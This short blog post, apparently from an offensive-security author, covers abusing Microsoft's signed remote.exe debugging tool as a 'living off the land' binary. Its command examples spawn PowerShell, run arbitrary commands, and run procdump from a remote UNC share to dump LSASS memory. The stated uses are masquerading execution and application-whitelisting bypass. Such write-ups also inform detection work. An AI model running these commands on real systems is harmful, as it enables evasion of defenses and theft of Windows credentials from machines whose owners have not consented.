


Masquerading execution behind the Microsoft signed binary remote.exe<!-- end-->.

If you're not familiar with the term LOLBins by now, you'd better catch up to speed because that's the trend for the foreseeable future. Briefly explained, "LOLBins" or "Living Off the Land Binaries" are non-malicious binaries that can be used in an unintended way to aid attackers in evading defenses. A more thorough explanation can be found <a href="https://blog.teamascend.com/lolbins">here</a>.

# Remote.exe

Remote.exe is a stand-alone executable that comes with the <a href="https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/">debugging tools for Windows</a>. Microsoft's definition of remote.exe is as follows:

>The remote.exe utility is a versatile server/client tool that allows you to run command-line programs on remote computers.
>This utility has a large number of uses. For example, when you are developing software, you can compile code with the processor and resources of a remote computer while you perform other tasks on your computer.

It's a pretty impressive tool, let's use it for our purposes now.

# Using Remote.exe

### To execute a file or command:

    remote.exe /s "file.exe" anything

### Spawn PowerShell.exe:
    
    remote.exe /s "powershell.exe" d0x

### Execute a single command:

    remote.exe /s "powerShell.exe -c whoami" mrd0x

### Execute a remote file:

    remote.exe /s "\\10.0.0.187\proc\procdump64.exe -ma lsass.exe lsass.dmp" anything

# Use Cases

* Masquerading execution under a Microsoft signed binary
* AWL Bypass